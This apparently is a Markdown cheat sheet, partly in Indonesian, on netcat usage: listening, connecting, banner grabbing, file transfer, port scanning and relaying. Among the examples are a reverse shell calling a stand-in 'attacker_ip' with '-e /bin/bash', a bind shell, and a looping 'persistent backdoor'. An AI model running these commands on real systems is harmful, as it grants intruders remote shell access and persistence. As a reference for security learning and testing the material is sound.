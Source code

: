 # 🔌 Netcat - The Swiss Army Knife

## 📋 Overview
Netcat (nc) adalah networking utility untuk reading/writing data across network connections menggunakan TCP/UDP.

## 🚀 Basic Usage

### Listening Mode
```bash
# TCP listener
nc -l -p 4444

# UDP listener
nc -u -l -p 4444

# Verbose output
nc -l -v -p 4444
```

### Connecting Mode
```bash
# TCP connection
nc 192.168.1.100 4444

# UDP connection
nc -u 192.168.1.100 4444

# Timeout connection
nc -w 5 192.168.1.100 4444
```

## 🎯 Common Use Cases

### Banner Grabbing
```bash
# HTTP banner
echo "GET / HTTP/1.0\r\n\r\n" | nc target 80

# SSH banner
nc target 22

# FTP banner
nc target 21
```

### File Transfer
```bash
# Receiver side
nc -l -p 4444 > received_file.txt

# Sender side
nc target 4444 < file_to_send.txt
```

### Reverse Shell
```bash
# Listener (attacker)
nc -l -v -p 4444

# Target machine
nc attacker_ip 4444 -e /bin/bash
```

### Bind Shell
```bash
# Target machine (bind shell)
nc -l -p 4444 -e /bin/bash

# Attacker connects
nc target_ip 4444
```

## 🔥 Advanced Techniques

### Port Scanning
```bash
# Single port
nc -zv target 80

# Port range
nc -zv target 20-25

# Multiple ports
nc -zv target 21 22 23 80 443
```

### Chat Server
```bash
# Server
nc -l -p 4444

# Client
nc server_ip 4444
```

### Backdoor
```bash
# Persistent backdoor
while true; do nc -l -p 4444 -e /bin/bash; done
```

### Proxy/Relay
```bash
# Simple proxy
mkfifo backpipe
nc -l -p 8080 0<backpipe | nc target 80 1>backpipe
```

## 🎯 Command Options

| Option | Description |
|--------|-------------|
| `-l` | Listen mode |
| `-p` | Port number |
| `-u` | UDP mode |
| `-v` | Verbose output |
| `-z` | Zero I/O mode (scanning) |
| `-w` | Timeout |
| `-e` | Execute command |
| `-n` | No DNS lookup |
| `-k` | Keep listening |

## 🔧 Different Netcat Variants

### Traditional Netcat
```bash
nc [options] hostname port
```

### Ncat (Nmap project)
```bash
ncat [options] hostname port
```

### GNU Netcat
```bash
netcat [options] hostname port
```

### OpenBSD Netcat
```bash
nc [options] hostname port
```

## ⚠️ Security Considerations

### Encrypted Connections (Ncat)
```bash
# SSL server
ncat -l --ssl 4444

# SSL client
ncat --ssl target 4444
```

### Authentication (Ncat)
```bash
# With authentication
ncat -l --ssl --ssl-cert cert.pem --ssl-key key.pem 4444
```

## 🎯 One-Liners

### Quick Web Server
```bash
# Serve a file
while true; do echo -e "HTTP/1.1 200 OK\r\n\r\n$(cat index.html)" | nc -l -p 8080; done
```

### Log Network Traffic
```bash
# Log connections
nc -l -p 4444 | tee netcat.log
```

### Test Network Connectivity
```bash
# Test if port is open
nc -zv target 22 && echo "SSH is open" || echo "SSH is closed"
```

## 📚 Pro Tips
1. Always use `-v` for verbose output during testing
2. Use `-z` for port scanning without establishing full connection
3. Combine with other tools using pipes
4. Use timeout (`-w`) to avoid hanging connections
5. Consider using ncat for SSL/encryption features

## 🔗 References
- [Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)
- [Ncat Documentation](https://nmap.org/ncat/)
- [Netcat Tutorial](https://www.varonis.com/blog/netcat-commands/)
